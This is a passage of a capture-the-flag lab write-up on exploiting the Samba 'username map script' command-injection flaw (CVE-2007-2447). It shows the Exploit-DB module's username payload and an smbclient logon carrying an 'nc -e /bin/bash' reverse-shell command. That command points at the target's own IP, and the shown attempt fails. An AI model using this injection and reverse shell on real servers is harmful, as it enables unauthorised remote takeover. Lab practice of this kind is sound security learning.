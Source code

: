 ![image](https://github.com/h4md153v63n/CTFs/assets/5091265/25853d56-2c6b-46be-b6e4-1b3e98b2b17f)

+ Pull the exploit: `searchsploit -m unix/remote/16320.rb`
```
└─$ searchsploit -m unix/remote/16320.rb
  Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/16320
     Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
    Codes: CVE-2007-2447, OSVDB-34700
 Verified: True
File Type: Ruby script, ASCII text
Copied to: /home/kali/16320.rb

```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/edcacaab-c3d0-4469-aba4-3c8c9d05bc2d)

+ `cat 16320.rb | grep username`
```
└─$ cat 16320.rb | grep username
			'Name'           => 'Samba "username map script" Command Execution',
				"username map script" configuration option. By specifying a username
				this option is used to map usernames prior to authentication!
		username = "/=`nohup " + payload.encoded + "`"
			simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                        
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a6ab3615-2dfe-41ca-b51f-e85a659c61e3)
`<br>
```
username = "/=`nohup " + payload.encoded + "`"
```

+ `smbclient //10.10.10.3/tmp -N` and `nc -lnvp 4444`
```
logon "./=`nohup nc -e /bin/bash 10.10.10.3 4444`"
```
```
└─$ smbclient //10.10.10.3/tmp -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ?
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
more           mput           newer          notify         open           
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
posix_unlink   posix_whoami   print          prompt         put            
pwd            q              queue          quit           readlink       
rd             recurse        reget          rename         reput          
rm             rmdir          showacls       setea          setmode        
scopy          stat           symlink        tar            tarmode        
timeout        translate      unlock         volume         vuid           
wdel           logon          listconnect    showconnect    tcon           
tdis           tid            utimes         logoff         ..             
!              
smb: \> logon "./=`nohup nc -e /bin/bash 10.10.10.3 4444`"
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \> 

```